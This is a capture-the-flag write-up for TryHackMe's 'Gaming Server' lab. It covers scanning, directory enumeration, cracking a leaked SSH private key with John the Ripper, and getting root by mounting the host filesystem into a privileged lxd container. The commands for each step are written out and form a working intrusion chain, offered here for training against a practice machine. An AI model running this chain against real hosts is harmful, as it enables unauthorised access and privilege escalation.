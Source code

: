 ```yaml
---
layout: post
title: "Gaming Server"
date: 2022-10-20
categories: [Tryhackme, Easy-THM]
tags: [rustscan, dirsearch, id_rsa, JTR, lxd, alpine, mount]
image: ../../assets/img/posts/gamingserver.png 

---
```


## Description

An Easy Boot2Root box for beginners

|**Room**|[Gaming Server](https://tryhackme.com/room/gamingserver)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[SuitGuy](https://tryhackme.com/p/SuitGuy)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.144.153
```

![image](https://user-images.githubusercontent.com/67465230/186084579-4a9c8175-5e02-474a-be12-49dabf93c007.png)

This reveals 2 open ports. Lets scan them using nmap,

```bash
nmap -sC -sV -p22,80 10.10.144.153 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084629-457a49dd-529c-4a34-b638-d6d7e9ebca9a.png)

Looks like port 22 is running ssh service and port 80 is running a webserver. Starting enumeration of port 80.

Visit http://10.10.144.153,

![image](https://user-images.githubusercontent.com/67465230/186084672-75f75382-069a-428f-9cbf-3839cec30079.png)

and we get stumble on a primitively build webpage, which has nothing interesting in it except it's source code page.

Scrolling down, there is a comment for John(username enumeration),

![image](https://user-images.githubusercontent.com/67465230/186084721-7036d186-cc9c-43ce-b135-ebc8e8fd8b9b.png)

Now, we need to find hidden directories,

```bash
dirsearch -u http://10.10.144.153 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186084760-bc9edc9f-25b4-44de-af74-ae87d0098757.png)

we got 2 hidden directories.

Visit http://10.10.144.153/secret,

![image](https://user-images.githubusercontent.com/67465230/186084800-cad2b60a-5e38-469e-bf37-b9410fbc95a8.png)

we got a file named **secretKey**. Maybe there is something useful for us. Let's find out.

Opening this file and I saw the private id_rsa key,

![image](https://user-images.githubusercontent.com/67465230/186084857-6b884158-96c1-4125-a0d8-1d927deda901.png)

Copy this key into secretkey file and we will use ssh2john script to convert this key into crackable hash, 

```bash
/usr/share/john/ssh2john.py secretkey > crackme
```

Now using JTR, we can crack this hash and obtain the password,

```bash
john crackme --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084905-8e49dbc0-e4f5-41d0-91ce-4d47867c92b6.png)

we got the password to login via ssh.

Now, changing the mode of the secretkey to give it suitable permissions, 

```bash
chmod 600 secretkey
```

Now we need to hop into machine as john user using secretkey,

```bash
ssh -i secretkey john@10.10.6.96
```

![image](https://user-images.githubusercontent.com/67465230/186084950-948e24eb-b6c6-4248-b094-28a217283448.png)

and we got in.

Enumerating directory and we got user flag,

![image](https://user-images.githubusercontent.com/67465230/186084993-7dd7907a-224d-4f0d-a204-66c59e277309.png)

Now, Issuing `id`command tells us that we are john user and we are in **lxd** group,

![image](https://user-images.githubusercontent.com/67465230/186085033-f744f349-312b-4096-9e1e-99edb2b0e43e.png)

By viewing that user john is in lxd group means we can abuse the lxd functionality to become system user. There is a great article on [Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

Now, we have to download the alpine builder from github and follow some commands,

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This will build up the package for us.

Now that our package is built, we need to start a python server to host this package on remote machine, `python3 -m http.server`

Navigating to /tmp directory and downloading this file using wget command,

![image](https://user-images.githubusercontent.com/67465230/186085073-4ee731b4-d751-41c3-a7d0-b8403b3412d6.png)

At first, we need to import the image into lxc image list as myimage,

```bash
lxc image import ./alpine-v3.14-x86_64-20210810_1625.tar.gz --alias myimage
```

![image](https://user-images.githubusercontent.com/67465230/186085119-73358c85-02fd-4669-b023-9f94ccf212e9.png)

Now, listing all images again,

```bash
lxc image list
```

![image](https://user-images.githubusercontent.com/67465230/186085146-6d1ab25e-fb6f-47fb-82d3-b12a0e3d52d0.png)

our image is now successfully added.

Now, to exploit the lxd, we need to execute command below,

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

>In the above commands we created a container named gaming having all the privileges and mounted the /root directory to /mnt/root then executed /bin/sh

and when we issue `id` command, it will show us that we are **root**.

Navigating to directory we mounted,

![image](https://user-images.githubusercontent.com/67465230/186085187-f0c3fdcd-fd28-4af9-b6a2-a79195268c6f.png)

we can see the system path with many directories (from root user perspective.).

Navigate to /mnt/root/root will let us have our root flag.